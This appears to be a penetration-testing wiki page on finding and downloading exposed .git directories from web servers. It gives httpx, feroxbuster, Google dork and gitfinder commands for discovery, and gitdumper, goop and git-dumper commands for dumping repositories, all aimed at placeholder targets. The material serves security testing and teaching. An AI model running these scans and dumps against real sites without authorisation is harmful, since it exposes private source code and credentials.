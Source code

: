 ```yaml
---
description: OWASP A3:2017-Sensitive Data Exposure
---
```


# Exposed Git Repositories

## Theory

The exposure of Git repositories on a webserver often occurs due to misconfigurations, where the `.git` directory is left accessible without proper access controls.&#x20;

If we encounter an application with an exposed .`git` directory, we can retrieve the entire repository. This enables us to extract valuable information, such as the remote repository address, commit history, logs, and various metadata. Accessing these details may reveal sensitive data, including proprietary code, hard-coded API keys, and credentials, which can then be leveraged to escalate our attack and further compromise the application's security.

## Practice

### Enumeration

{% tabs %}
{% tab title="httpx" %}
We may use [httpx](https://github.com/projectdiscovery/httpx) to check if the `.git/HEAD` file contains `refs/heads` for a list of domains.\
This one-liner will only match if directory listing is enabled.

```bash
cat domains.txt | httpx -path /.git/HEAD -silent -mr "refs/heads"
```
{% endtab %}

{% tab title="Feroxbuster" %}
When performing web directory fuzzing on a target with [Feroxbuster](https://github.com/epi052/feroxbuster) or any other tool, using the [common.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt) wordlist from [SecLists](https://github.com/danielmiessler/SecLists) can help uncover any exposed `.git` directories.

```bash
feroxbuster -u http://target.com -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
{% endtab %}

{% tab title="Google Dorks" %}
We can use the Google search engine to search for exposed `.git` repository with the following [Google Dorks](exposed-git-repositories.md#google-dorks)

```bash
intext:"index of" ".git"
{intitle: indexof/.git }
intitle:"index of" "/.git/config"
filetype:git -github.com inurl:"/.git"
```
{% endtab %}

{% tab title="Gitfinder" %}
This python script from [GitTools](https://github.com/internetwache/GitTools) identifies websites with publicly accessible `.git` repositories from a list of domains. It checks if the `.git/HEAD` file contains `refs/heads`.

```
./gitfinder.py -i domains.txt
```
{% endtab %}
{% endtabs %}

### Dump&#x20;

{% tabs %}
{% tab title="GitTools" %}
**gitdumper** from [GitTools](https://github.com/internetwache/GitTools) can be used to download as much as possible from the found .git repository from webservers which do not have directory listing enabled.

```
./gitdumper.sh http://target.com/.git/ dest-dir
```

**extractor.sh** from [GitTools](https://github.com/internetwache/GitTools) can then be used in combination with **gitdumper** in case the downloaded repository is incomplete. This tool extract commits and their content from a broken repository.

```
./extractor.sh /tmp/mygitrepo /tmp/mygitrepodump
```
{% endtab %}

{% tab title="goop" %}
[goop](https://github.com/nyancrimew/goop) (Golang) is tool to dump a git repository from a website.

```bash
goop target.com
```
{% endtab %}

{% tab title="git-dumper" %}
[git-dumper](https://github.com/arthaud/git-dumper) (python) is a tool to dump a git repository from a website.

```bash
git-dumper http://target.com/.git ~/TargetOutputFolder
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure" %}

{% embed url="https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37" %}

{% embed url="https://infosecwriteups.com/exposed-git-directory-exploitation-3e30481e8d75" %}
